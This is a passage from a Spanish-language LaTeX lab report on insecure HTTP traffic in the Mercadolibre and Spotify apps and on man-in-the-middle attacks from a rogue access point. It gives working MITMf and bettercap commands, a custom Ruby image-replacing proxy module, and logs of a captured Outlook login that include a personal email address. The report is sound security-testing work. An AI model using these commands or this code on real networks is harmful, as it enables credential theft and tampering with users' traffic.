    
\includegraphics[width=10cm]{img/mercadolibre_httpry.png}
    \caption{Log de mercadolibre}
\end{wrapfigure}

Otras de las aplicaciones que testeamos, en vez de enviar, \textbf{reciben cierta información mediante HTTP}. Esto \textbf{compromete tanto la confidencialidad 
como la integridad de esa información}, que recordemos que involucra no solamente a los datos transmitidos sino también a la transmisión en sí. 
Los ejemplos puntuales que encontramos son la app de Mercadolibre y la de Spotify: ambas reciben imágenes en base a pedidos HTTP.

\begin{wrapfigure}{r}{10cm}
    \centering
    
\includegraphics[width=10cm]{img/spotify_httpry.png}
    \caption{Log de spotify}
\end{wrapfigure}

En estos casos la pérdida de confidencialidad de las imágenes no resulta relevante \textit{per se} ya que de todos modos son imágenes públicas. 
Pero esto implica que pueda saberse qué contenido está descargando o mirando tal o cual usuario. Por eso aunque la imagen sea pública debería 
viajar cifrada para mantener la confidencialidad de la información de la transmisión, en resguardo de la privacidad del usuario. 

Por otra parte, el compromiso de la integridad de la información representa esta vez de manera directa un problema ya que \textbf{el usuario cuenta 
con dicha integridad y toma decisiones en base a esas imágenes}. En el caso de Mercadolibre esto podría implicar, por ejemplo, operaciones de 
compra de un producto legítimamente publicado, pero cuya publicación el usuario atacado ve con la imagen de otro. Además, como siempre, las 
imágenes que se muestran en una aplicación o sitio repercuten en la imagen comercial de la empresa. Si al abrir la aplicación se ven, por 
ejemplo, imágenes que explicitan que la seguridad de la app fue vulnerada, lo más probable es que el usuario prudentemente desconfie de 
utilizarla hasta, al menos, tener algo de información sobre el incidente y la regularización de la situación.


\subsection{MITM}

El MitM (o Man-in-the-Middle) es un ataque en el que se adquiere la capacidad de leer, insertar y modificar a voluntad la información que 
está en viaje. El atacante debe ser capaz de observar e interceptar mensajes entre las dos víctimas los mensajes entre dos partes sin que 
ninguna de ellas conozca que el enlace entre ellos ha sido violado. 

Para nuestro caso, utilizaremos SSLStrip y una herramienta llamada MITMf, la cual es un framework que recopila varias herramientas conocidas 
(como ssltrip2 y dns2proxy) para permitirnos hacer este tipo de ataques. PNuestra intención es poder capturar información que viaja en la red, 
modificarla y analizar el posible impacto que puede tener en un escenario real. A continuación, enumeramos las pruebas realizadas:

\begin{itemize}
  \item Downgrade de conexiones HTTPS a HTTP con SSLStrip
  \item Eliminando HSTS con SSLStrip2 y dns2proxy
  \item Intercepción y modificación de imágenes por HTTP
\end{itemize}

\subsubsection{Downgrade de conexiones HTTPS a HTTP con SSLStrip}

Cuando nuestro dispositivo de prueba se conecta a alguna página que utiliza HTTPS, se genera una conexión segura que impide que podamos ver el 
tráfico real que está en viaje para esa conexión. \textbf{SSLStrip} es una herramienta que permite quitar los headers https de la conexión y forzar a 
que la misma se realize por http. O sea, \textbf{convierte todo lo que sea https:// en http://}. De esta manera, si bien nosotros siempre vamos 
a querer conectarnos de manera segura por https a algún servicio o página web, SSLStrip nos fuerza a hacerlo de manera insegura.

\begin{wrapfigure}{r}{10cm}
    \centering
    
\includegraphics[width=10cm]{img/hsts.png}
    \caption{HSTS browser support}
\end{wrapfigure}

Sin embargo, luego de realizar algunas pruebas con el mismo, nos dimos cuenta que no funciona tan bien como esperábamos, dado que es afectado 
en gran parte por los headers HSTS. \textbf{HSTS (HTTP Strict Transport Security) es una política de seguridad web} establecida para evitar ataques 
que puedan interceptar comunicaciones, cookies, etc. Según este mecanismo \textbf{un servidor web declara que los navegadores solamente pueden 
interactuar con ellos mediante conexiones HTTPS}. 

Al día de hoy la mayoría de los sitios de gran uso, como pueden ser Paypal, Gmail, Facebook, Twitter, Outlook, etcétera, utilizan el header 
HSTS para que los navegadores que lo soportan, que a día de hoy son todos los modernos, sepan que cuando el usuario introduzca el dominio en la barra de 
direcciones sin especificar el protocolo, se debe acceder siempre a través de HTTPS. De este modo, nunca se realizará una petición HTTP a un 
dominio que use HSTS y evitará que un atacante en medio puedo hacer un esquema de SSLStrip. Es por esto, si bien SSLStrip reemplaza por 
http://, el navegador vuelve a forzarlo a https:// gracias a este header, por lo que nuestra pruebas con esta herramienta no fueron para 
nada interesantes.

\subsubsection{Eliminando HSTS con SSLStrip2 y dns2proxy}

Para resolver este problema que tenemos con el header HSTS, vamos a utilizar la nueva versión de SSLStrip, llamada SSLStrip2 o SSLStrip+, en conjunto
con dns2proxy. Estos nos permitirán quitar todo header HSTS que se pueda aparecer en los headers de las conexiones (SSLStrip2) y nos 
redireccionarán a un dominio falso que se haga pasar por el verdadero pero que funcione sobre HTTP para poder capturar el tráfico (dns2proxy). 
Por default, MITMf viene configurado para hacer esto con algunos dominios, por ejemplo, con outlook.live.com, el cual nos permite ingresar a nuestras 
cuentas de outlook o hotmail personales, generando una redirección a weboutlook.live.com, que es un dominio falso creado por dns2proxy para hacerse pasar
como la página real pero que este sobre HTTP. 

Pusimos a correr nuestro rogue AP, desactivamos el dns que nos provee dnsmasq, y luego pusimos a correr MitMf con las opciones de hsts 
(SSLStrip2) y dns (dns2proxy) de la siguiente manera:

\begin{lstlisting}[style=base]
  $ python mitmf.py -i wlan0 --hsts --dns
\end{lstlisting}

Luego, conectamos nuestro dispositivo de prueba al AP e intentamos acceder a outlook.com y estos fue lo que logueo mitmf:

\begin{lstlisting}[style=base]
  2017-11-25 17:29:20 10.0.0.168 [type:Chrome Mobile-62 os:Android] outlook.com
  2017-11-25 17:29:21 10.0.0.168 [DNS] Resolving 'wwww.outlook.com' to 'www.outlook.com' for HSTS bypass
  2017-11-25 17:29:21 10.0.0.168 [type:Chrome Mobile-62 os:Android] www.outlook.com
  2017-11-25 17:29:21 10.0.0.168 [type:Chrome Mobile-62 os:Android] Zapped a strict-transport-security header
  2017-11-25 17:29:21 10.0.0.168 [DNS] Resolving 'weboutlook.live.com' to 'outlook.live.com' for HSTS bypass
  2017-11-25 17:29:21 10.0.0.168 [type:Chrome Mobile-62 os:Android] outlook.live.com
  2017-11-25 17:29:22 10.0.0.168 [type:Chrome Mobile-62 os:Android] Zapped a strict-transport-security header
  2017-11-25 17:29:22 10.0.0.168 [type:Chrome Mobile-62 os:Android] Zapped a strict-transport-security header
\end{lstlisting}
  
Como se puede ver, mitmf capturo los requests a outlook.live.com y lo termino redirigiendo a weboutlook.live.com el cual mantiene una conexión del 
tipo HTTP pero se muestra como si fuera la página original para el usuario del dispositivo, y todos los requests que hagamos desde este dominio 
dns2proxy los forwardea al dominio original para que la navegación y el comportamiento del sitio parezca real. 

Paso siguiente, nos intentamos loguear al sitio poniendo nuestro email y un password erróneo para mostrar únicamente como capturamos el tráfico. 
A continuación se pueden ver los logs:

\begin{lstlisting}[style=base]
  2017-11-25 17:30:45 10.0.0.168 [type:Chrome Mobile-62 os:Android] POST Data (login.live.com):
  {"username":"fedomartinez@hotmail.com","uaid":"6624e94e138e428381c78633a1ab0e74","isOtherIdpSupported":false,"checkPhones":false,"isRemoteNGCSupported":true,"isCookieBannerShown":false,"isFidoSupported":false,"flowToken":"DQhHzeNTqKgxInlQhD31Nw0SsDGg7fJHgiMMlRv1h0E1CW!Aa4LxVqOMMnjVW6PLiF9GhG!OiSWI3hmjm7sieMn2*AysxGtCrV*OFOjsCncmhYVa*OLGWxKpw6wat5kyAk56pUr8xE*ac82nr6IWxvZ0XEIOqIHPMedKY2R2J*R47bzX34e7DNlSj1*lIXI6kAai7ZTgChw7YBHUQMyi!4cQTKAlGLTo28D*FPygvU!EG0OSa*mPnRxBol1fRmNZ3s5Unh2dDJgoQzFwDnSDswE$"}
  2017-11-25 17:30:45 10.0.0.168 [type:Chrome Mobile-62 os:Android] Zapped a strict-transport-security header
  2017-11-25 17:30:46 10.0.0.168 [type:Chrome Mobile-62 os:Android] auth.gfx.ms
  2017-11-25 17:31:00 10.0.0.168 [type:Chrome Mobile-62 os:Android] POST Data (login.live.com):
  i13=0&@login=fedomartinez%40hotmail.com@&loginfmt=fedomartinez%40hotmail.com&type=11&LoginOptions=3&lrt=&lrtPartition=&hisRegion=&hisScaleUnit=&@passwd=prueba@&ps=2&psRNGCDefaultType=&psRNGCEntropy=&psRNGCSLK=&psFidoAllowList=&canary=&ctx=&PPFT=DQhHzeNTqKgxInlQhD31Nw0SsDGg7fJHgiMMlRv1h0E1CW%21Aa4LxVqOMMnjVW6PLiF9GhG%21OiSWI3hmjm7sieMn2*AysxGtCrV*OFOjsCncmhYVa*OLGWxKpw6wat5kyAk56pUr8xE*ac82nr6IWxvZ0XEIOqIHPMedKY2R2J*R47bzX34e7DNlSj1*lIXI6kAai7ZTgChw7YBHUQMyi%214cQTKAlGLTo28D*FPygvU%21EG0OSa*mPnRxBol1fRmNZ3s5Unh2dDJgoQzFwDnSDswE%24&PPSX=Pa&NewUser=1&FoundMSAs=&fspost=0&i21=0&CookieDisclosure=0&i2=36&i17=0&i18=__ConvergedLoginPaginatedStrings%7C1%2C__ConvergedLogin_PCore%7C1%2C&i19=71540
\end{lstlisting}

Claramente se puede ver que al generar una conexión HTTP a un dominio falso que se hace pasar por uno verdadero podemos interceptar información 
sensible que de otra manera no podríamos descifrar en una conexión HTTPS. En esta caso, tanto el mail como el password de nuestro dispositivo 
fueron comprometidos.

\subsubsection{Intercepción y modificación de imágenes por HTTP}

Para esta prueba, decidimos utilizar \textbf{bettercap} para modificar requests de imágenes que viajan por tráfico HTTP y redigirlas a otra 
imagen que nosotros especifiquemos. En este caso, dado que no encontramos un plugin de bettercap que nos permita redirigir imágenes, decidimos 
crear el nuestro propio. A continuación el código del mismo:

\begin{lstlisting}[language=ruby,basicstyle=\ttfamily\color{white},commentstyle=\ttfamily\color{gray},keywordstyle=\ttfamily\color{orange},stringstyle=\color{green}]
  # imageReplacer.rb

  # encoding: UTF-8
  # This proxy module will redirect all images to an image of our choice.

  class ImageReplacer < BetterCap::Proxy::HTTP::Module
    meta(
      'Name'        => 'Pwnd',
      'Description' => 'This proxy module will redirect the target(s) images requests to an image of our choice.',
      'Version'     => '1.0.0',
      'Author'      => "Federico Martinez",
      'License'     => 'GPL3'
    )

    # Choosen image URL
    @@url = 'http://www.catster.com/wp-content/uploads/2017/08/A-fluffy-cat-looking-funny-surprised-or-concerned.jpg'

    def on_request( request, response )
      if response.content_type =~ /^image\/.*/ and !@@url.include?(request.host)
        BetterCap::Logger.info "[#{'REDIRECT'.green}] The requested image #{request.to_url} has been replaced! ..."
        response.redirect!(@@url)
      end
    end
  end
\end{lstlisting}
    
Básicamente, este plugin captura todas las requests HTTP que devuelven imágenes y la convierte en una imagen que nosotros especificamos. Pusimos 
a correr bettercap de la siguiente manera sobre la interfaz de nuestro rogue AP:

\begin{lstlisting}[style=base]
  $ bettercap -I wlan0 --proxy-module redirecttocat.rb -T 10.0.0.168 -G 10.0.0.1 --no-spoofing
\end{lstlisting}

Luego, utilizando aplicaciones como Spotify o Mercadolibre que utilizan requests HTTP inseguras para imágenes, pudimos obtener resultados como 
el siguiente al querer ver el carousel de imágenes de una publicación de mercadolibre:

\begin{wrapfigure}{c}{10cm}
    \centering
    
\includegraphics[width=10cm]{img/cat.png}
    \caption{Imagen modificada en mercadolibre}
\end{wrapfigure}